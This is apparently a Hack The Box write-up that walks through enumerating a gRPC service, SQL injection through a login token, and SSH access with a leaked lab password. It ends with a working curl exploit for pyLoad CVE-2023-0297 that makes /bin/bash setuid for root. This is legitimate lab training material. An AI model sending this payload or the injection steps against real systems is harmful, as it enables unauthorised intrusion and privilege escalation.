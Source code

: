 ![Pasted image 20230706101542](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/64857823-64ca-491b-92e4-f0f2737ea34a)

# Enumeration

Nmap:

![Pasted image 20230706103908](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/dfa0c896-98e1-4331-8e4b-5fb848abf31d)

After scanning all ports for services, there is exactly two ports open: SSH, and an unknown service on a non-standard port. That is likely our way in.... 

Trying to navigate to the site in a web browser just shows non-readable string of characters:

![Pasted image 20230706104449](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/6132acbe-69f7-4543-a976-c89f9c87cfef)

Based on a quick google search, it looks to be used by a service called gRPC. 


# Foothold

I found a tool that is used like curl for this service called grpcurl. 
![Pasted image 20230706110007](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/7a8fe4b3-7567-44ae-b96e-59c0d89325ab)

Will probably want to look deeper into this... 
![Pasted image 20230706110311](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/ec62302d-278a-42de-81d3-92b44b702292)

Starting to get somewhere...
Might not be able to go further with this tool.... grpcui is another interesting one, though.... 
Finally was able to get grpcui working. I'm greeted with a login form thing. I can basically send login requests and the program will display the response.
I tried admin admin and it looks like I'm given an ID and a token:
![Pasted image 20230706132946](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/168f14d9-f73e-4343-908e-1d0b3892eb47)

So that's neat. Not sure what to do with this information at the moment... 
```
id:
450
token:
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODg2NzQ2Nzh9.8CAJaOHpBOnTtj1I2Mlx4y7RE_Mzo0jajisozx_QPGs'
```
Not sure what I can do here, but it's definately talking to a sql server of some kind. Maybe it's exploitable that way? 
On the 'getinfo' form for the page, I can add the token header with the token created by testing the admin login, and then entering in the ID. Maybe that's my entrypoint? Possibly an injection... 

Some simple guessing that there was a table called "accounts" lead me to be able to get the information I needed. Note, that if there are more than one (and we know there are because admin:admin is a thing here), I'll need to use the `GROUP_CONCAT()` function to list all of them that exist. We can exclued any "admin" ones since we know that one exists. 
I was then able to find a usernames:
![Pasted image 20230706140042](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/1a21ff41-7f60-4a34-81e2-432a1a626ff9)

And the passwords:
![Pasted image 20230706135545](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/4cba70c8-ad48-4ad1-abb5-1cae0d853e24)

 And with that, we have an SSH login:
```
sau
HereIsYourPassWord1431
```
![Pasted image 20230706140727](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/846837dc-4cae-4e14-906a-fad4c82ad443)

Nice!

# PrivEsc

Not in the sudo group 😞
I'll try linpeas next to see if it digs anything juicy up...
Nothing major, but there is one strange thing. It shows that port 8000 is open, which did not come up in my nmap scans... 
![Pasted image 20230706141903](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/7fce4314-c08f-4fc3-b9d9-a00b02156e6f)

It's also a listening port which might be why it wasn't sending anything out when I scanned it... 
Looking deeper through the linpeas scans, I could find a reference to a service running called `pyload` which is interesting. 

I found a CVE related to the program. It involves sending a specially crafted curl request to the port which will trick the server into making /bin/bash a setuid binary. 
https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad#exploit-code
```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

When this is sent via my ssh session:
![Pasted image 20230706143045](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/c06d92fe-5456-4681-87ec-06d3458ab3fc)

That's root!!
